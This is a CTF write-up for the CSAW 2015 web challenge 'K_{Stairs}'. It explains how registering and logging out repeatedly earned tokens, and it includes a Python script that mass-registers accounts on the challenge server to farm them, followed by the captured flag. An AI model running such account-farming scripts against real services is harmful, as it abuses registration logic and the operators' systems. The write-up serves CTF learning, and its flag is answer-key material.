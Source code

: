 ```yaml
---
layout: post
title:  "CSAW - K_{Stairs}"
date:   2015-09-21 19:00
categories: csaw2015
tags: security ctf csaw2015 cryptography
description: A web challenge for 100 points
---
```


**Category** : Web 

**Points** : 100

**Contributor** : [Marc Olivier Bergeron](https://github.com/MOBergeron)

***

#Write-up
At the start of the CTF, this challenge was worth 50 points, but they changed it for 100 points. We realized that when you register/logout you get three more tokens each time. In that challenge, we needed 10 tokens to buy a compass and one token for a pack of five food item.

My partner created a Python script that created many accounts. Then, it returned the cookie that we could replace with our current one. So, with that script you did not need to manually create an account to have more tokens.

###Script by [MOBergeron](https://gist.github.com/MOBergeron/a34e719e4587257defab)
{% highlight python %}
import hashlib
import requests

if __name__ == "__main__":
	u = 199999 # Change this everytime you run the script to have different user names
	
	urlRegister = "http://54.209.88.227/register"
	urlLogout = "http://54.209.88.227/logout"

	s = requests.session()
	
	for i in range(50): # Change this if you need more or less tokens
		username = hashlib.sha1(str(u)).hexdigest()
		user1 = username[:len(username)/2]
		user2 = username[len(username)/2:]
		# Login 1
		r = s.post(urlRegister, data={'user':user1,'pass':'','login':'register'})
		s.get(urlLogout)

		# Login 2
		r = s.post(urlRegister, data={'user':user2,'pass':'','login':'register'})
		
		if(i < 49):
			s.get(urlLogout)
		u+=1

	print(r.cookies)
{% endhighlight %}

Then, we just needed to buy a compass, foods and follow the compass indication to find the stairs.

And when we reached the stairs we got this message:

“Your compass indicates you are going the right way. You found the exit... You win! You find the key on a piece of paper: KEY{H0000LY_ST41rRs_S0000_MUCH_SPACE}. Then a grue gets you. You die.”



